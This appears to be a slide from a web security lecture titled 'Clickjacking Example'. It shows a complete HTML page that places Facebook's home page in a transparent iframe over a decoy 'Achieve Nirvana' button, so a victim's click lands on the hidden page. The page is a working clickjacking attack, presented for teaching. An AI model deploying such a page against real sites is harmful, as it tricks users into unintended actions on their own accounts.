

# Clickjacking Example
<html>
  <head><title>Clickjacking Times</title></head>
  <body>
  <h1>Clickjacking Example</h1>
    <div style="z-index:2; position:absolute; top:0; left:0; width: 100%; height: 100%">
      <iframe src="http://www.facebook.com/home.php?" id="frame1" style="opacity:0; filter:alpha(opacity=0);" width="100%" height="100%" />
     </iframe>
    </div>
    <div align="right" style="position:absolute; top:0; left:0; z-index:1; width: 100%; height:100%; background-color: white; text-align:left;">
      <p><input type="submit" value="Achieve Nirvana" /><br />Press this button to achieve happiness </p>
    </div>
 </body>
</html>